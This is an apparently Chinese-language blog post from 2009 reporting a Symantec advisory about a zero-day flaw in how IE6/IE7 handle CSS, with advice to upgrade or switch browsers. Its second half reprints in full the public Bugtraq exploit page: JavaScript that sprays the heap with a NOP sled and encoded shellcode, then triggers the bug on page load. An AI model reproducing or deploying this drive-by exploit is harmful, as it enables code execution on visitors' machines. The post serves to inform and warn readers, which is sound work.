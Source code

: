 # IE6-IE7 0day 漏洞
>date: 2009-11-23T00:52:14+08:00




昨天（2009年11月21日），Symantec发布了[IE的一个0day安全漏洞的消息](http://www.symantec.com/connect/blogs/zero-day-internet-explorer-exploit-published)。关于这个消息，截止本文发布时，在中文社区里还没有报导。这是一个关于IE6/IE7处理CSS时的一个漏洞（[关于IE和CSS的BUG](https://coolshell.cn/articles/1817.html)）。如果你目前还在使用IE6/IE7，那你现在可能是你升级的时候了，当然，有很多人说IE8是没有问题的，但我个人还是建议在补丁出来之前先使用Firefox或Chrome。


根据Symantec的的报告，他们在第一时间内测试了那个“Exploit Code”（攻击代码），根据测试结果表时，那个JavaScript的攻击代码并不是100%的可靠，而且很不可靠，但安全专家相信，100%完全可靠的“攻击代码”将会马上出现。这意味着，这段攻击代码会马上如潮水一样地放在各个有恶意的网站上，然后，所有的IE6/IE7的，打开JavaScript的用户都会被危及。


目前，这段攻击代码，虽然很不可靠，但已经被证明在IE6/IE7的 Windows XP SP3上是可靠的，目前还没有相关报告说明有多少台电脑中招了，但我相信，在过去的这个周末，一定有一些人在拼命地在改善这段攻击代码，他们要赶在相关的补丁出来之前。而Microsoft，相信他还是和以前一样，一定要等到攻击很广泛的时候才会开始真正把补丁提上日程。


最后，说一下攻击代码，这个代码是在[Bugtraq邮件组](http://seclists.org/bugtraq/2009/Nov/148)中，这段攻击代码如下所示，这段代码攻击性并不可靠。




```
<!--
securitylab.ir
K4mr4n_st () yahoo com
-->
<!DOCTYPE HTML PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"<a href="http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd</a>";>
<HTML xmlns=<a href="http://www.w3.org/1999/xhtml">http://www.w3.org/1999/xhtml</a>;>
    <HEAD>
<script>  
            function load(){
                var e;
                e=document.getElementsByTagName("STYLE")[0];
                e.outerHTML="1";
            }
        </script>    
        <STYLE type="text/css">
            body{ overflow: scroll; margin: 0; }
        </style>
       
        <SCRIPT language="javascript">
var shellcode =
unescape("%uE8FC%u0044%u0000%u458B%u8B3C%u057C%u0178%u8BEF%u184F%u5F8B%u0120%u49EB%u348B%u018B%u31EE%u99C0%u84AC%u74C0%uC107%u0DCA%uC201%uF4EB%u543B%u0424%uE575%u5F8B%u0124%u66EB%u0C8B%u8B4B%u1C5F%uEB01%u1C8B%u018B%u89EB%u245C%uC304%uC031%u8B64%u3040%uC085%u0C78%u408B%u8B0C%u1C70%u8BAD%u0868%u09EB%u808B%u00B0%u0000%u688B%u5F3C%uF631%u5660%uF889%uC083%u507B%u7E68%uE2D8%u6873%uFE98%u0E8A%uFF57%u63E7%u6C61%u0063");
var bigblock = unescape("%u9090%u9090");
var headersize = 20;
var slackspace = headersize+shellcode.length;
while (bigblock.length<slackspace) bigblock+=bigblock;
fillblock = bigblock.substring(0, slackspace);
block = bigblock.substring(0, bigblock.length-slackspace);
while(block.length+slackspace<0x40000) block = block+block+fillblock;
memory = new Array();
for (x=0; x<4000; x++) memory[x] = block + shellcode;
</script>
 
    </HEAD>   
    <BODY onload="load()">
    </BODY>
</HTML>
```

 




